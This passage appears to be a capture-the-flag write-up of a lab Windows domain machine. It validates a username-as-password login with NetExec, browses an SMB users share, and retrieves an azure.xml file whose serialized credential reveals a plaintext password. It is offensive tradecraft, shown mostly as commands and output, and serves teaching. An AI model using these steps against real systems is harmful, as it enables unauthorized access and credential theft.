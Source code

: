 ```bash
nxc smb 10.129.228.111 -u 'SABatchJobs' -p 'SABatchJobs'
SMB         10.129.228.111  445    MONTEVERDE       [*] Windows 10 / Server 2019 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False) 
SMB         10.129.228.111  445    MONTEVERDE       [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs 
                              
```

The credentials for the user SABatchJobs were validated against SMB but were unsuccessful for authenticating to the WinRM service.

```bash
nxc winrm  10.129.228.111 -u 'SABatchJobs' -p 'SABatchJobs'
WINRM       10.129.228.111  5985   MONTEVERDE       [*] Windows 10 / Server 2019 Build 17763 (name:MONTEVERDE) (domain:MEGABANK.LOCAL)
WINRM       10.129.228.111  5985   MONTEVERDE       [-] MEGABANK.LOCAL\SABatchJobs:SABatchJobs
```

The SABatchJobs account was used to access the users$ SMB share. The user directory for mhope was listed, and a file named azure.xml was retrieved from it. The file was successfully downloaded to the local machine.

```bash
smbclient //10.129.228.111/users$ -U 'MEGABANK.LOCAL\\SABatchJobs'
Password for [SABatchJobs]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Jan  3 08:12:48 2020
  ..                                  D        0  Fri Jan  3 08:12:48 2020
  dgalanos                            D        0  Fri Jan  3 08:12:30 2020
  mhope                               D        0  Fri Jan  3 08:41:18 2020
  roleary                             D        0  Fri Jan  3 08:10:30 2020
  smorgan                             D        0  Fri Jan  3 08:10:24 2020

                31999 blocks of size 4096. 28979 blocks available
smb: \> cd mhope
smb: \mhope\> ls
  .                                   D        0  Fri Jan  3 08:41:18 2020
  ..                                  D        0  Fri Jan  3 08:41:18 2020
  azure.xml                          AR     1212  Fri Jan  3 08:40:23 2020

                31999 blocks of size 4096. 28979 blocks available
smb: \mhope\> get azure.xml
getting file \mhope\azure.xml of size 1212 as azure.xml (7.4 KiloBytes/sec) (average 7.4 KiloBytes/sec)
smb: \mhope\> exit


```

The file azure.xml contained a PowerShell serialized object which revealed a plaintext password: `4n0therD4y@n0th3r$`.

```bash
cat azure.xml
��<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
```